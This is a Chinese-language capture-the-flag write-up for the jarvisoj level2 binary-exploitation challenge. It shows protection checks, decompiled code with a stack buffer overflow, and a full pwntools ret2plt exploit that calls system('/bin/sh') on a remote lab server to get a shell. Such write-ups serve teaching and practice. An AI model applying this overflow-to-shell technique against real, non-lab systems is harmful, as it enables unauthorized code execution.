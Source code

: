 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level2
date: 2022-3-21 10:20:02
permalink: /pages/2e1547494524d182
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level2/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

漏洞函数vulnerable_function如下

```c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u);
}
```

函数表如下

![jarvisoj_level2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level2_1.png)

Gadget

```shell
ROPgadget --binary level2 --string "/bin/sh\x00"              
Strings information
============================================================
0x0804a024 : /bin/sh
```

## 思路分析

1. 目前信息:
   - `vulnerable_function`函数可溢出
   - `plt`表内有`system`
   - 程序内有`/bin/sh`字符串
   - No PIE
2. 思路

- 直接溢出到`plt`表内的`system`处，传入`/bin/sh`地址即可

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level2/level2'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29484)
elf = ELF(pwnfile)
padding = 0x88+4
bin_sh = 0x0804A024
payload = flat(['a'*padding, elf.plt['system'], 0xdeadbeef, bin_sh])
io.recv()
io.sendline(payload)
io.interactive()
```